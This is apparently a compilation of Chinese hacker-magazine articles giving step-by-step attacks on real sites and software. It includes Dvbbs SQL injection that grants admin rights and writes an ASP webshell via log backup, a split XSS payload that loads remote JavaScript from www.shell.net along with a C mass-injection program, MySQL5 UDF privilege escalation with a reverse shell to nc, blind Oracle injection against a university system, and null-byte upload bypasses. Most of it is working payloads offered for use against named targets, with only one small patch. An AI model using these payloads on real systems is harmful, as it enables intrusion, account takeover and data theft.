发表之后没有出错的话，用 loveshell 登录，他就应该是管理员了，我本机测试通过的！前台如图 5，后台如图 6！

图 5 前台

图 6 后台

啊啊，这样得到的管理员是没有什么权限的，不过如果我们能操作数据库了，不就可以直接通过注入给权限了么？只要把 Dv_Admin 里的 flag 字段填满就有权限啦！嘿嘿，注入语句如下：

```
update dv_admin set flag='1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30,31,32,33,34,35,36,37' where username='loveshell';
```

还是去发帖子，在可以买的用户列表里写上：

```
loveshell',3);update dv_admin set flag='1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30,31,32,33,34,35,36,37' where username='loveshell';--
```

啊啊，提交中去登录，嘿嘿，这下可是货真价实的管理员了哦！怎么在后台拿 webshell 呢？虽然现在的动网对数据库文件作了处理，但是既然是 SQL 版本，就可以通过后台系统信息探测的功能查看网站文件的位置，如图 7。

然后利用这个注入点或者后台的注入点进行数据库备份啦！呵呵！到了后台做什么都方便！那么如何得到备份数据库需要的库名呢？这个好说啊！通过前面的漏洞语句可以用：

```
loveshell',3);update/**/Dv_User/**/set/**/UserEmail=db_name()/**/where[UserName]='loveshell';--
```

这样就可以在 loveshell 的 mail 里找到数据库名字了，然后就可以在注入点提交下面的语句备份 shell 啦！

```
loveshell',3);alter database bbs set RECOVERY FULL;drop table cmd;create table cmd (a image);backup log bbs to disk='D:\wwwroot\asp\dvbbs\0vbbs';exec('insert into cmd (a) values (0x3c256563686f206f66663e633a5c5c5c...)');backup log bbs to disk='D:\wwwroot\asp\dvbbs\1.0Sql\s.asp';drop table cmd;--
```

嘿嘿，本机测试成功返回后的结果如图 8！木马存在啦！成功拿到 shell！或者在 2003 下更改上传目录的名字为 1.asp，然后再上传文件，就可以当作 asp 文件解释了，我没有测试哦！

好，动网最新的补丁下来了，拿来一看发现这个漏洞还是没有补的，大家可以拿去测试着玩啦！还是那句老话，任何的输入都是有害的，这里的修补也很简单！

```
If Buy_UserList<>"" Then Buy_UserList = Replace(Replace(Replace(Buy_UserList,"||",""),"@@@",""),"$PayMoney","")
```

改成：

```
If Buy_UserList<>"" Then Buy_UserList = Replace(Replace(Replace(Replace(Buy_UserList,"||",""),"@@@",""),"$PayMoney",""),"'","")
```

啊啊！通知下官方就行了！顺便测试了一下，留个后台作为纪念，如图 9。

> 编辑点评：动网作为历经风雨的一个论坛，也算是国内用户较多，各方面都应该较为成熟。但其相比其他论坛要更为繁杂，正所谓越简单越安全，所以动网又被找了洞，也不为奇。且这次再爆漏洞，又很严重，说明历经风吹雨打也未必就能彻底杜绝 SQL 注入。不过，它搞的“千金找洞”这个活动也是某种应对漏洞的积极态度，很好，也确实很有必要。

## 疯狂的跨站之行——7bao 网站漏洞利用浅析

剑心 [B.C.T]

国内关于跨站漏洞的利用好像再次跌入了低谷，关于跨站利用的讨论已经不像以前那么火了，但是还是发现网络上到处都有 HTML 字符过滤不严的现象出现。无论是大站还是小站，这些问题都还是到处存在，但是重视都不够。记得在以前的一篇文章里我提到了华夏黑客联盟使用的文章系统有 JS 注入漏洞，文章的结尾提到了远程的整站注入但是没有实施，结果还被 Lcx 叔叔（编辑 lcx：我老了，有那么老吗？）说是一个遗憾。正好最近又遇到了一个类似的情况，于是狠下心来把上次的想法实施了一下，也给大家一个思路——如何将简单的跨站演变为疯狂的行为。

7bao.com 是国内一家给网络游戏提供交易的平台网站，在一次无意的对它进行安全测试中发现可能存在跨站方面的安全问题。问题出在对装备的评论那里，让我们去看看需要利用的地方存在什么问题吧！提交评论是需要登录的，我们还是注册个 ID testbadegg，登录之后去提交评论吧。因为问题总是出现在参数提交的地方，在提交评论的地方我们发现可以提交 2 个参数，一个是联系方式，另一个是留言内容，如图 1 所示。


因为这里我们测试的是跨站，所以敏感的字符是 `"` 和空格以及 `<>` 等，那么我们就在联系方式和留言内容里都写上 `<hehe"> I love you` 提交，如图 2，发现程序没有报错哦！那看看程序是怎么处理我们提交的数据吧！一切都是黑盒情况下进行的！所以我们在返回的页面里查找源文件中的字符 “hehe”，发现我们提交的留言里的特殊字符都被过滤掉了，但是显示联系方式的地方没有做任何过滤哦，如图 3 所示。呵呵，这么轻易地就发现了漏洞！不错吧！但是关于跨站的实际利用其实还是有另外一个限制因素的，那就是变量的长度！这里的变量允许输入多长呢？我们再提交一个留言吧！在联系方式里写上 50 个 d 然后提交，发现返回的地方只有 30 个了，如图 4 所示。很明显，联系方式那里的变量最大也只有 30 个字符的长度，那么现在的问题就是如何利用 30 个字符的长度写一个有效的跨站代码呢？

因为这里我们要用自己的 script 标记，所以必须在 `<script></script>` 中用掉 17 个字符，剩下 13 个字符可以自由支配。当然我们就可以用 `<script>alert('Test')</script>` 来跨站尝尝玩，但是这除了遭人厌恶之外没有任何意义，我们最好引入一个 Frame 或者一个 JS 代码嘛！那才够有威力！如果我们想用 src 属性引入一个 JS 代码的话，`<script src=></script>` 用掉了 22 个字符，剩下 8 个字符是可以自由支配的。但是到了这个份上，我想 8 个字符是无论如何也满足不了大家需要的吧，根本无法引入一个有效的 URL 地址！呵呵！程序是死的，但是我们的思想却是无限的，继续突破吧！注意，这里我们是可以重复留言的，也就是说可以提交多个脚本标记，那么我们完全可以利用这个特性将代码拆分做我们想做的事！还要注意一点就是 JS 脚本的语法特性，多个 JS 代码的话，后面的语句必须先提交才能在页面里让代码顺利执行！


有了上面的思路，让我们继续吧！譬如我们要引入 http://www.shell.net/1.js 这个 JS 文件，然后我们就可以通过控制这个 JS 文件来控制这个网站的页面了，如何做呢？我们可以利用这样的代码：`<script src=//www.shell.net/1.js></script>` 引入 JS 文件，但是如何引入上面的代码呢？我们知道 JS 里面有个对象 document.write 可以在当前页面输入内容，如果我们将上面的代码内容用：`document.write('<script src=//www.shell.net/1.js></script>')`，这样写就可以在当前页面引入 JS 了，而如何执行上面的代码呢？我们可以用函数 eval()，这个函数可以执行某个变量的内容。至于如何控制变量，我们是可以解决的，方法如下：

```html
<script>z='document.'</script>
<script>z=z+'write("'</script>
<script>z=z+'<script '</script>
<script>z=z+'src='</script>
<script>z=z+'//www'</script>
<script>z=z+'.shell'</script>
<script>z=z+'.net/1.'</script>
<script>z=z+'js></sc'</script>
<script>z=z+'ript>")'</script>
<script>eval(z)</script>
```

上面的代码是引入一个字符串变量 z，将 `document.write('<script src=//www.shell.net/1.js></script>')` 拆开，分多次将其嵌入到变量 z 中，最后通过 eval(z) 执行需要的代码，这在狭小的用户输入里，也许是唯一的方法！不多说了，看看结果吧！如图 5 所示，呵呵，是不是都乖乖地在页面里了？

到这里，大家也发现这个小漏洞利用起来是很麻烦的，每次都要输入 10 次左右的留言才能对一个 ID 进行跨站脚本攻击，那有没有简便的方法呢？这就要用到上次文章里的思路了，抓包然后让程序代替我们就可以了哦！随着 ID 的增加，跟踪站被挂马跨站脚本攻击没有什么两样！


一定要按照顺序哦，也就是 `<script>eval(z)</script>` 这样的代码一定要先发送！注意为了 ID 的处理方便我们改变下变量的顺序，将 ID 放到 POST 内容的最后，并且变成 `ID=` 的形式，这样我们就可以自己组合 ID 对网站进行程序化的注入了！然后就是代码的构造，我给出的程序主要框架如下：

```c
void usage();
void initconnect();
void senddata();
main()
{
    if(WSAStartup(MAKEWORD(2,2),&wsa) == 0){
        usage();        // 用法函数
        initconnect();  // 网络连接
        senddata();     // 发送数据包，完成注入
        WSACleanup();   // 清除数据
    }
    return 0;
}
```

其中 initconnect() 函数完成网络的初始化并且与目标网站进行连接，代码我就不发出来了，跟其它程序的网络连接函数差不多。剩下的就是利用 senddata() 函数进行发送数据包的工作！senddata() 函数的编写很简单，我写的代码如下：

```c
int senddata()
{
    int sendtime;            // 控制发送的文件
    char filename[128]="\0";
    FILE *fp1;
    char temp[1024]="\0";
    int iread;
    char receive[50000]="\0";
    for(sendtime=0;sendtime<=9;sendtime++){
        filename[0]=(char)(sendtime+48); // 读取数据包文件
        strcat(filename,".txt");
        ...
    }
}
```

```c
if ((fp1=fopen(filename,"r+"))==NULL)
{
    printf("Error To Open inputFile %s\n", filename);
    exit(0);
}
printf("Read File %s OK\n", filename);
while(!feof(fp1))
{
    fgets(temp,1024,fp1);      // 发送数据包
    send(server,temp,strlen(temp),0);
    ZeroMemory(temp,sizeof(temp));
}
send(server,ID,strlen(ID),0);  // 构造自定义的ID
read=recv(server,receive,50000,0);
if(debug==1) {puts(receive);}
if(read>0) {
    printf("ID:%s Send %s OK\n", ID, filename);
    ZeroMemory(receive,50000);
    ZeroMemory(filename,sizeof(filename));
}
fclose(fp1);
ZeroMemory(filename,sizeof(filename));
Sleep(1000);
printf("\n#####  ID:%s Injected OK!  #####\n", ID);
return 0;
```


这样编译出来的程序运行下，感觉还不错，如图 7 所示。呵呵挂在肉鸡上进行疯狂的注入吧！尽管是单线程并且为了代码的有效性，严格控制了时间，但是注入速度还是很快的！打开个页面看看效果吧！哈哈！还不错，如图 8 所示。

一个小的漏洞利用起来危害还是很大的，这次把 Lcx 大叔说的遗憾终于圆满地解决，也算不错的！在实际的跨站以及其他利用中，环境各不相同，如何发挥想像力达到自己的目的才是一个入侵客必备的素质。谢谢大家听我啰嗦，有什么问题到论坛讨论，我的 ID 是剑心。

> 编辑随说：一个巧妙的思路，解决了在 7bao.com 网站 30 个字符长度内跨站的问题。根据这个思路，我算了一下，最小的有效利用的代码可以缩减到 26 个字符，就是写成类似 `<script>z=z+'a'</script>` 这样的形式（好像双引号和加号不可以少）。当然也希望读者来挑战更短更小的跨站代码，让我们的跨站技术更精彩更疯狂。

## 巧取豪夺价值 3 千万的嘉游 Flash 电影源码

王开东

几乎是一夜之间，嘉游这个名字在网络上无人不知没人不晓，国内大型的门户网站、游戏网站、各大论坛以及游戏杂志上，到处充斥着嘉游的广告，宣传的是耗资 3 千万打造的一部 Flash 电影。如此的大手笔，真是让我们领略了嘉游的财大气粗。打开嘉游的官方网站 www.segame.com，上面原来是许多大牌明星拍的一个 Flash 电影，当时就满脑子的疑问，这部价值 3 千万的 Flash 电影是什么广告？是手机广告？电影宣传片？后来才知道是游戏广告（图 1）。现在这些商家的宣传手段越来越高明，让我们不明白他的心。


人经不起诱惑，看着 3 千万的 Flash 电影，早就流了口水，想 down 下来研究一下。本以为很简单就能 down 下来，可这其中真是煞费苦心啊。随我一起来吧。

首先我们要找到 Flash 的真实下载地址，点右键查看源文件，无法查看到源文件，整个页面都是 Flash，点开只能看到 Flash 的设置。点工具栏“查看→源文件”，打开只有如下几行代码（图 2）。


再次让我大失所望，看来 3 千万真不是吹出来的。在防盗链上耍下了很多功夫啊。看上面的代码只有一个 Src 转到了 index.sega 这个页面。打开来看，发现是另外的一个游戏页面。看来这只是个假象，不是真实的 Flash 电影页面的地址。拿出嗅探工具 WSockExpert，也就是我们通常说的抓包工具抓包（图 3）。嗅探 http://www.segame.com/ 得到图 3 中的信息，我们可以看到，在 Referer 和 Host 这两处显示的地址都是 teaser.segame.com。访问一下，果然 teaser.segame.com 显示的还是 Flash 那个页面。然后我们再查看源文件，看看能不能得到 Flash 的地址（图 4）。


图 3


图 4


图 5


图 6

本以为到这里就大功告成了。可是用 Flash MX 打开的时候才发现这只是个片头，很短的几帧，原来这个 Flash 电影分好几幕，但是在网页当中又没有 src 或者 URL 跳转，那肯定是插入到 Flash 的脚本当中了。观察刚才下载下来的 index.swf，在脚本中发现两个载入 Flash 的地址。

```text
loadMovieNum("http://www.segame.chinacache.net/sega_http/nav_top.swf",2);
pattern/loadMovie("http://www.segame.chinacache.net/sega_http/pattern-main.swf");
```

打开来看都是一些边框和背景，不是 Flash 电影的地址，但是发现这些 Flash 都放在了 sega_http 这个目录下，也就是说我们只要找到 Flash 的文件名就能拿到真实地址了。怎么知道文件名呢？忽然想起一个小插件 DUDU 下载器，平时极为厌恶这些插件都删掉了。看来今天需要安装上了。DUDU 下载器可以嗅探到 Flash 和媒体文件。打开 DUDU 任务管理选择工具，在“感知 Flash/流媒体”前打上勾，这样我们就可以找到 Flash 的文件名了！

在我观看第一部电影的时候，我用 DUDU 找到了 story01.swf，这样加上我们以上得到的地址，就知道了真实的地址为 http://www.segame.chinacache.net/sega_http/story01.swf。看到文件名是 story01.swf，根据国人的心理那 story02.swf 不就是第 2 幕了呢？访问 http://www.segame.chinacache.net/sega_http/story02.swf 直接跑到了第 12 幕。还有错误提示（图 7）！


图 7

仔细辨认错误提示，原来都是一些韩文，看来不是 made in china 啦。难怪会跑到 12 幕，外国人的心思你别猜！我们一步一步地搞到了现在，难道就拿不到下面的源码了吗？当然不是，我刚才提过，下一幕的地址都是插入到 Flash 的脚本当中的，那知道了这一点，我们就导入 story01.swf 看看源码吧（图 8）。


图 8

在 mov.loadMovie 后面的就是这一幕的真实地址，原来真实的名称应该是 FS_01.swf。真是踏破铁鞋无觅处！我们再访问 FS_02.swf，啊！这回真的被我们猜中了。FS_02.swf 就是第 2 幕。接下来的工作就是大家一起 down 了！

文中提到的都是技巧和经验的问题，也希望各位读者不要知难而退。文章写完，我也 down 下了嘉游所有的 Flash 并且都导出了源码。到这里我不禁要问，Flash 电影价值 3 千万，可这样的安全性值 3 千万么？

## 牛刀拿来小试——记 MySQL5 提权

XApache Maple-X [Wolves Security Team]

最近入侵一个站，搞了好久终于拿到 WebShell 了，却没有达到预期想要的效果——我并没有权限访问网站目录外的其他文件夹。于是，权限提升必不可免。经过检查，发现对方用的是 MySQL 5.0 的数据库，系统是 Windows 2003，支持 ASP 和 PHP。

在网上找了一会，没有什么好办法。记得以前有个方法是用一个 DLL 来通过 MySQL4 提升权限，于是我找到了那个 mix.dll，准备试一试（以下的操作在本机模拟进行，请注意）。

在 MySQL 中创建一个函数的语句：`Create Function FunctionName Returns [String|Integer|Real] Soname 'C:\function.dll'`，利用这个函数，可以得到一个 Shell。不过前提是，你必须拥有一个 MySQL 账号和密码。打开 MySQL 试了下，结果失败了。返回的信息是：“Can't open shared library 'd:\Mix.dll'”，如图 1 所示。


不能打开库文件？看了 Superhei 的文章之后，终于知道原来 MySQL5 的 UDF 在格式和安全方面做了一些新的改变。对于没有 xxx_init() 初始化函数在以前的版本是可以使用的，但是在 MySQL5 下会出现以上的错误。在这样的环境下强行使用 mix.dll 提权，很可能导致 MySQL 被挂起，程序崩溃，如图 2 所示。


在网上找了好久都没有找到现成的漏洞利用工具，不过后来发现云舒写了一个代码，测试成功后，顺利拿下主机。这里对他表示感谢（文中所提到的 MySQL5exp.dll 已经包含在本期附带的光盘中）。

这个工具的用法很简单，传到服务器上以后，创建函数，再执行 `select shell('你的IP','你开放的端口');`，如图 3 所示。


在你的机器上开一个 nc，让它监听 1234 端口。这样 shell 就会反弹到你的机器上了。很快，我们就得到了 system 权限，试着把 nohack 这个用户加到管理员组看看。如图 4 所示。


命令成功完成。怎么样，效果还不错吧。在 MySQL+Mix.dll 的提权中，由于程序上的一些问题，往往会导致数据库在得到 Shell 之后崩溃，所以大家在使用时请注意一下。有的服务器权限设得比较死，上述方法可能对其无效。这个时候，你可以先把 DLL 文件的内容插到一个表中，然后用 `select * from heige into dumpfile 'c:/windows/system32/MySQL5exp.dll';` 这样的命令把文件导入系统目录即可。

> 有的教程上写的是 MySQL5 限制了 UDF 对应的文件，DLL 只可以放在 system32 目录下，但这不一定。

在实战入侵中，以上的步骤未免有些烦琐，现在圈子里已经流行的那个 phpspy2006 修正版，就直接包含了 MySQL4 提权的相应代码，作者是浅蓝色的辐射鱼，功能很全面。于是我和好友 Maple-X 商量以后，决定做一个免 DLL 的 PHP 版本。花了一个小时测试以后，终于搞定。如图 5、6 所示。


对此有兴趣的朋友，可以把这个功能再加到你的 phpspy 或其他 WebShell 程序中，或者把程序做得更完善一些。时间仓促，我这里就不啰嗦了，大家自己研究吧。

【文章中用到的 MySQL5exp.dll 和 MySQL5exp.php 已收录在本期光盘中】

## 利用 JSP+Oracle 注入 再度杀入教务处

剑心[B.C.T]

大家可能记得上次我写过进入教务处的文章，但是想来想去还是觉得不完美，不只是没有得到网站管理的最高权限，而且前后花费的时间太长，并且是从网段的机器旁注进去的，实在不爽。既然我们是搞脚本的，那么真的就不能从80端口渗透么？于是再次决定去试试了！

### 一、判断注入点的数据库类型

因为网站是JSP+Unix架构的，权限也配置得很好，没有什么目录浏览之类的漏洞，再加上上次的测试也能确定没有什么上传方面的漏洞了，这么少的功能应该是比较安全了，那么剩下的就只能看看有没有注入方面的问题了。

整个网站查询数据库的地方有很多，登录的地方肯定是一个，但是测试了也是没有问题的，那么现在只能看看公告的地方了！主页上有如下一个公告：

Url: http://fuckjwc/hust//pub_message/message.jsp?fmodulecode=5100&modulecode=5100&messageid=4351

首先提交：http://fuckjwc/hust//pub_message/message.jsp?fmodulecode=5100&modulecode=5100&messageid=4351 and 1=1

正常返回如图1所示。


接着提交：http://fuckjwc/hust//pub_message/message.jsp?fmodulecode=5100&modulecode=5100&messageid=4351 and 1=2

返回信息如图2所示。


嘿嘿，有了上面两个Url提交的结果就可以判断出是存在SQL注入漏洞的了，并且能确定是一个int类型的注入点，因为它将我们的and 1=1和and 1=2也当作SQL语句处理了，无论是什么数据库，到这一步都说明我们能注射代码的哦！让我们继续吧！

知道了存在注入就应该看看是什么类型的数据库了，直接加个单引号让它出错看看！提交：

http://fuckjwc/hust//pub_message/message.jsp?fmodulecode=5100&modulecode=5100&messageid=4351'

返回跟图2一样的结果，是出错了，但是也可以知道服务器方面是做了错误屏蔽的，这样我们就不能直接得到数据库类型了，这难不倒我！

提交：http://fuckjwc/hust//pub_message/message.jsp?fmodulecode=5100&modulecode=5100&messageid=4351/*jnc，还是返回如图2一样的结果，我们知道如果是MySQL的话，因为/*是注释字符，那么这个正常应该返回跟图1一样的结果，这里返回错误说明不会是MySQL，那么继续判断吧！

提交：http://fuckjwc/hust//pub_message/message.jsp?fmodulecode=5100&modulecode=5100&messageid=4351-- -jnc


返回如图3一样的结果，呵呵，跟图1差不多吧！这说明当前的数据库服务器是支持“--”注释字符的，而跟JSP常用搭配的支持“--”注释字符的，也就MSSQL和Oracle而已，接下来要判断数据库是MSSQL还是Oracle了，提交Url：

http://fuckjwc/hust//pub_message/message.jsp?fmodulecode=5100&modulecode=5100&messageid=4351；

返回如图4一样的结果，说明是不支持“；”分割的多句查询哦！我们知道MSSQL是支持“；”多句查询的，那么这里就应该是Oracle了！

```text
http://fuckjwc/hust//pub_message/message.jsp?
fmodulecode=5100&modulecode=5100&messageid=4351 and
(select count(*) from user_tables)>0--
```

哈哈，正常返回，如图5所示，这下确定了这个注入点是JSP+Oracle的int类型的注入点！


### 二、猜测后台存放管理员的用户名密码的表列名

到这里就要调整下我们的注入思路了！从系统登录的地方我们看到可以选择什么类型的用户，如图6所示，这里我们关心的肯定是如何取得系统管理员的权限！如果我们知道了用户名和密码是放在什么表中，就可以通过这个注入点进行猜测了！查看登录页面的源代码发现了这两行代码：

```html
<input name="username" type="text" class="input_text" id="username" size="9">
<input name="password" type="password" class="input_text" id="password" size="9">
```

一般的程序员在写程序的时候为了方便或者习惯，都是将列名作为变量传递的，这为我们黑盒测试带来了方便。Oracle数据库的注入不同于其他数据库，如Access和MySQL，它包含了几个系统表，这几个系统表里存储了系统数据库的表名和列名，如user_tab_columns系统表就存储了用户的所有的表、列名，其中table_name表示的是系统里的表名，column_name里的是系统里存在的列名，我们就可以通过这些系统表来猜测系统的数据库结构了！

```text
http://fuckjwc/hust//pub_message/message.jsp?
fmodulecode=5100&modulecode=5100&messageid=4351 and
(select count(*) from user_tab_columns where column_name like '%25PASSWORD%25')>0--
```

注意其中的%25是%的Url编码，通过这个语句就可以查询user_tab_columns系统表，看里面列名与PASSWORD相似的记录的条数，注意列名要用大写表示哦！结果返回如图1类似的结果，说明系统里是含有password列的，将%25去掉再次提交，返回如图1类似的结果，证实了我们的猜测！接着提交：

```text
http://fuckjwc/hust//pub_message/message.jsp?
fmodulecode=5100&modulecode=5100&messageid=4351 and
(select count(*) from user_tab_columns where column_name like '%25USERNAME%25')>0--
```

用相似的方法证明了username列的存在。接下来是判断表名了，提交：

```text
http://fuckjwc/hust//pub_message/message.jsp?
fmodulecode=5100&modulecode=5100&messageid=4351 and
(select count(*) from user_tab_columns where table_name like '%25ADMIN%25' and column_name like '%25USERNAME%25')>0--
```

返回错误，说明应该不存在一个名字里含有ADMIN并且列名里含有USERNAME的表，按着判断下有没有名字里含有USER的目标表吧！提交：

```text
http://fuckjwc/hust//pub_message/message.jsp?
fmodulecode=5100&modulecode=5100&messageid=4351 and
(select count(*) from user_tab_columns where table_name like '%25USER%25' and column_name like '%25USERNAME%25')>0--
```

嗯嗯，运气不错，还真有这样的表！看看有几个吧！提交：

```text
http://fuckjwc/hust//pub_message/message.jsp?
fmodulecode=5100&modulecode=5100&messageid=4351 and
(select count(*) from user_tab_columns where table_name like '%25USER%25' and column_name like '%25USERNAME%25')>1--
```

这下出错了，看来只有一个这样的表哦！继续吧！看看这个表名是什么！提交：

```text
http://fuckjwc/hust//pub_message/message.jsp?
fmodulecode=5100&modulecode=5100&messageid=4351 and
(select count(*) from user_tab_columns where table_name like '%25USER%25' and length(table_name)=4 and column_name like '%25USERNAME%25')>0--
```

这句是猜名字含有USER那么长度至少是4啦，提交后返回错误，说明表名不是USER，提交：

```text
http://fuckjwc/hust//pub_message/message.jsp?
fmodulecode=5100&modulecode=5100&messageid=4351 and
(select count(*) from user_tab_columns where table_name like '%25USER%25' and length(table_name)=5 and column_name like '%25USERNAME%25')>0--
```

正常返回啦，表名是5位哦，是什么呢？试试USERS吧！提交：

```text
http://fuckjwc/hust//pub_message/message.jsp?
fmodulecode=5100&modulecode=5100&messageid=4351 and
(select count(*) from users)>0--
```

正常返回啦！嘿嘿，表名和列名都猜到了，现在来查询我们需要的东西吧！提交：

```text
http://fuckjwc/hust//pub_message/message.jsp?fmodulecode=5100&modulecode=5100&messageid=4351 and
(select count(*) from users)>100--
```

晕！正常返回啦！表里的记录这么多啊！看来很可能学校里所有人的用户名和密码都在这里呢！看看我的在不在里面吧！提交：

http://fuckjwc/hust//pub_message/message.jsp?fmodulecode=5100&modulecode=5100&messageid=4351 and (select count(*) from users where username='0207******')=1--

居然正常返回了，也就是说普通用户的信息是放到这个表里的！那么管理员的信息是不是在这个表里呢？去公告里看了看，发现有个zhaoyi的用户，用zhaoyi登录教务管理员，发现提示密码错误，看来是存在这个用户名的，并且属于教务管理员权限，提交：

```text
http://fuckjwc/hust//pub_message/message.jsp?fmodulecode=5100&modulecode=5100&messageid=4351 and (select count(*) from users where username='zhaoyi')=1--
```

正常返回，嘿嘿，这给了我一点点希望，既然教务管理员的信息是放到这个表里的，那么系统管理员的信息不也可能放到这个表里么？但是它是如何来区分用户的类别的呢？这个时候我记起来了，在登录的地方有个选择类型的登录表单，去查看源文件发现了这个utype变量和下面的代码：


嗯嗯，很有可能是通过utype这个变量来决定用户权限的哦！并且根据编程人员的习惯，很有可能utype=8代表的是系统管理员，让我们看看是不是有这个列吧！提交：

```text
http://fuckjwc/hust//pub_message/message.jsp?fmodulecode=5100&modulecode=5100&messageid=4351 and (select count(utype) from users)>0--
```

太让人难过了，返回信息还是如图2所示，也就是说不存在utype这个列，不过肯定是存在与这类似的一个列的，提交：

```text
http://fuckjwc/hust//pub_message/message.jsp?fmodulecode=5100&modulecode=5100&messageid=4351 and (select count(type) from users)>0--
```

哈哈，正常返回了！看看我的type类型值是不是登录表单处的1吧！提交：

```text
http://fuckjwc/hust//pub_message/message.jsp?fmodulecode=5100&modulecode=5100&messageid=4351 and (select type from users where username='0207******')=1--
```

很惊喜地发现我们的猜想是对的，我的type值是1，现在看看type值为8的人有几个吧！提交：

```text
http://fuckjwc/hust//pub_message/message.jsp?fmodulecode=5100&modulecode=5100&messageid=4351 and (select count(*) from users where type=8)=1--
```

果然符合系统管理员的身份，这样的用户只有一个，我们的目标也就明确了哦！接下来是猜测管理员的用户名和密码，这里有个插曲拿来说下，也跟大家一起讨论下。本来想偷懒用Union查询的，因为union查询要求系统前后查询的列数和列的类型都相同，所以首先提交：

```text
http://fuckjwc/hust//pub_message/message.jsp?fmodulecode=5100&modulecode=5100&messageid=4351 order by 23--
```

利用order猜测出了这个select查询语句的列数，然后就是艰苦地猜测列的类型了，提交：

```text
http://fuckjwc/hust//pub_message/message.jsp?fmodulecode=5100&modulecode=5100&messageid=4352 and 1=1 union select NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL from users--
```

提交这个连接正常返回，因为NULL是可以匹配所有类型的变量的，然后就是按顺序从头到尾慢慢匹配每个列的类型。因为Oracle列有三个类型：数字型、字符型和日期型，所以分别用数字、字符和TO_DATE('2006','yyyy')替换，当所有的类型都匹配完成，提交Url：

```text
http://fuckjwc/hust//pub_message/message.jsp?fmodulecode=5100&modulecode=5100&messageid=4352 and 1=1 union select 111,222,333,444,'jnc1','jnc2',555,'jnc3','jnc4',666,'jnc4',777,'jnc5','jnc6','jnc7','jnc8',888,'jnc9',TO_DATE('2006','yyyy'),999,100,'jnc10','jnc11' from users where username='zhaoyi'--
```

正常返回，但是当我激动地将前面的and 1=1变成and 1=2的时候，郁闷的情况发生了，返回了如图2的情况，我对Oracle注入并不精通，有人知道解决的办法欢迎来《黑客手册》指教！

### 三、得到后台管理员的用户密码

插曲讲完了，继续我们的注入之旅吧！好在用户名和密码估计也不会太长，利用Oracle的几个字符函数如length()可以得到字段长度，然后利用substr()函数取得字符串的某一个特定字符，最后，为了猜测方便，用ascii()函数将字符转换成ASCII码，就OK了！构造的猜测语句如下：


去后台登录试试！嘿嘿，果然是系统管理员呀！如图6和图7所示，看了看，也没有什么好玩的！还是得不到webshell，不过尝试了一次Oracle的注入，感觉还真不错！另外这个系统采用的是清华大学的一个教务管理程序，大家快去看看自己的教务处是不是采用的这种系统啊，不是学生的就不用看了！有什么问题欢迎到论坛讨论，我的ID是剑心。

> 【编辑点评】Oracle的注入文章和工具在网上并不多见，这篇文章介绍了手工注入Oracle网站的过程，同时给出了注入原理和方法，可以给初学Oracle注入的读者一个感性的认识。

## 脚本攻击中“非安全字符”的妙用

xY/B.C.T8/玄帆/B.C.T

### 一、简述

在脚本安全漏洞中，比较流行的漏洞有SQL Injection、跨站，以及一些其它的利用逻辑等错误进行提权或者上传等攻击，在这些漏洞中有一部分是通过某些特殊的字符来进行操作的。

其实字符并无所谓特殊不特殊，只是在某些程序或者解析环境中为其赋予了特殊的意义，所以利用这些特殊的意义则可进行程序员未预料的操作，相比其他类型的攻击来说，这类攻击相对来说“隐藏”得比较深，如果程序员没有很好的安全意识，则非常容易忽略而导致漏洞的出现。举例来说，就连动网以及phpwind等非常流行的程序的编写者都曾经忽略一些问题而导致严重的后果出现，因此对此类漏洞必须注意。

本文讨论的范围其实是狭义的“特殊字符”，在进行SQL Injection攻击时，充其原理，也是利用了SQL语句中的特殊字符，但是这个暂时就不在我们的讨论范围了。

```text
disabled=true,
parent.document.forms[0].Submit2.disabled=true;">
</form>
```

程序是提取file1表单和filepath表单中的值来做判断的，也就是说直接从页面递交要上传的asp文件程序是会检测出来的。不过我们可以自己构造数据包并使用NC提交，达到避过检测的目的。但是我们的问题是上传后的文件一定要是asp格式的，虽然file1的值合法，但是最终达到保存的扩展名为asp的目的应该怎么办呢？

动网所用的无组件上传类中有一句是这么写的：

```text
filename=formPath&year(now)&month(now)&day(now)&hour(now)&minute(now)&second(now)&ranNum&"."&fileExt
```

这个filename为程序生成的保存的文件的文件名，其中formPath值就是路径值，没有很好过滤。在计算机中检测字符串的关键就是看是否碰到ASCII码为00的字符，如果是则认为字符串结束了。也就是说我们在构造上传文件保存路径时，只要欺骗计算机，让它认为是"uploadface\Daniel.asp"这样的路径参数已经结束了，就可以达到我们的目的了。

### 二、字符导致上传漏洞

非法上传漏洞的主要原理是利用了计算机对ASCII码为00的字符的处理特点而进行的，ASCII码为00的字符在计算机中表示结束，这个结束符就可以导致程序出现问题了，我们来看一个例子。

动网本来是不允许上传asp等危险文件的，但是其上传的处理有一定的漏洞，导致程序获取的参数有误而使入侵者可以上传任意文件。先看看提交上传的一个页面reg_upload.asp源码：

```html
<form name="form1" method="post" action="upfile.asp" enctype="multipart/form-data">
<input type="hidden" name="filepath" value="uploadface\">
<input type="hidden" name="act" value="upload">
<input type="file" name="file1">
<input type="hidden" name="fname">
<input type="submit" name="Submit1" value="上传" onclick="fname.value=file1.value,parent.document.forms[0].Submit1.disabled=true">
```

### 三、字符导致写入文件得Shell

- 1. ASP的语句控制符

熟悉ASP的读者朋友都知道，在ASP中，可以以符号“:”来表示一行程序的结束，这样可以在同一行写必须经过换行的程序，例如ASP代码：<%/Response.Write(Now())Response.Write(Date())%>，运行时将会出现如图1所示的错误。这是因为 ASP 脚本习惯规定在一行内不允许出现多个 Response.Write() 语句，但是如果我们将此段代码写作：`<%Response.Write(Now()) : Response.Write(Date())%>`，则可以正常运行，如图2所示。


统计代码，可以比较简单地知道管理员是否曾经被导向此页面。

## 2、PHP 的语句控制符

PHP 属于 C 类语言，其语法要求在语句结束时，在语句后加入“;”表示。另外，还可以通过“//”来注释一行语句，因此我们可以通过相应的方法进入某些 PHP 程序的后台，然后在配置文件中写入木马。

相对来说 PHP 中使用文本方式来保存信息的应用比较多，所以此类漏洞在 PHP 中还是比较常见的，通常可能不能在前台利用，但是用来得到密码后进入后台时写一句话木马得 Shell 是不错的。

